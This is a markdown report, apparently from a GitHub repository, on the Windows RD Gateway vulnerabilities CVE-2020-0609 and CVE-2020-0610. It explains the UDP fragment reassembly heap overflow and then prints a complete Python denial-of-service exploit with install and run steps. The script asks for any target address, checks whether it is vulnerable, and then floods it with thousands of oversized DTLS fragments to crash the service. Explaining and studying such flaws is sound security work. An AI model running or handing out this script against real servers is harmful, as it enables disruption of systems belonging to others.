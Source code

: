 
<div align="center"><h1>CVE-2020-0609 and CVE-2020-0610 REPORT</h1></div>

## About the vulnerability

A remote code execution vulnerability exists in Windows Remote Desktop Gateway (RD Gateway) when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system.  
To exploit this vulnerability, an attacker would need to send a specially crafted request to the target systems RD Gateway via RDP.

**On versions:** Windows Server 2012, 2012 R2, 2016, 2019

## Explanation

The RDG UDP protocol splits the message into multiple packets to transport them. Since UDP is connectionless these packets can arrive in any order. The packets are reassembled at the recipient using the packet headers `fragment_id`, `num_fragments`, `fragment_length`. The function implemented to reassemble the packets has some bugs which lead to this vulnerability.

To summarize the packet reassembly algorithm used : we first allocate memory on the heap to act as a buffer and then divide this buffer into many sections of size (= `max_fragment_size`). Now whenever a packet arrives, we check if we have received that fragment before using its id, if we have not received that fragment before we copy its contents to the buffer. we copy the entirety of the fragment to the address (`&buffer + fragment_id * max_fragment_size`). Later when all packets have arrived we simply concatenate all the sections and end up with the actual message.

The problem arises because the size of all the sections required to hold all the packets may be much more than the actual size of the message and therefore the buffer. Thus we can write data on the heap outside the memory which was allocated for us, overwriting other important data this causes the process to run into errors and crash leading to a DoS.

Say the message length is 500, max fragment size is 1000
we can have two packets
```
packet (id=0) : length = 300
packet (id=1) : length = 200
assigned buffer size is 1000
packet 0 is written to the buffer at offset 0 (0 * max_fragment_size) and,
packet 1 is written to the buffer at offset 1000 (1 * max_fragment_size)
```
We can see that packet 1 is written beyond the memory assigned to the buffer and this leads to an overflow even though the buffer was big enough to hold the message.

## Exploit

```
import struct
import ssl
import sys
import signal
from socket import socket, AF_INET, SOCK_DGRAM
from dtls import do_patch, sslconnection

target = input("=> Target website/IP address : ")
port = int(input("=> Port number : "))

#Creating and wrapping SSL socket and establishing connection with target
def open_socket(target1, port1):
    socket1 = ssl.wrap_socket(socket(AF_INET, SOCK_DGRAM))
    setattr(socket1, "ssl_version", sslconnection.PROTOCOL_DTLSv1)
    socket1.connect((target1, port1))
    return socket1

#Creating packets for checking presence of vulnerability and also for DoS attack
def dos_packet(frag_no, frag_id):
    frag = "A" * 2000
    buffer1 = struct.pack("<HHHHH", 5, 2006, frag_id, frag_no, 2000)
    buffer1 += frag.encode()
    return buffer1

#Check if the server is vulnerable
do_patch()
socketA = open_socket(target, port)
packetA = dos_packet(100, 0)
socketA.write(packetA)
signal.signal(signal.SIGALRM, lambda signum, frame: None)
signal.alarm(5)
vuln = False

try:
    response = socketA.recv(16)[-4:]
    value = struct.unpack("<L", response)[0]
    vuln = value != 0x8000ffff
except:
    vuln = True
signal.alarm(0)
socketA.close()

#If vulnerable, Initiating DoS attack
if vuln:
    print("Target is vulnerable.\nInitiating DoS attack.")
    do_patch()
    for i in range(5000):
        socket1 = open_socket(target, port)
        for j in range(10):
            packet = dos_packet(i, i)
            socket1.write(packet)
        socket1.close()

else:
    print("Target not vulnerable.")
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall3/chall3/exploit_CVE-2020-0609.py)

This exploit was tested on Windows server 2019 and performs DOS on Windows server 2019.

### How to run

#### Requirements
```
pip install python3-dtls
```
#### Run
```
python3 exploit_CVE-2020-0609.py
```

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=0jWB87UaN10)
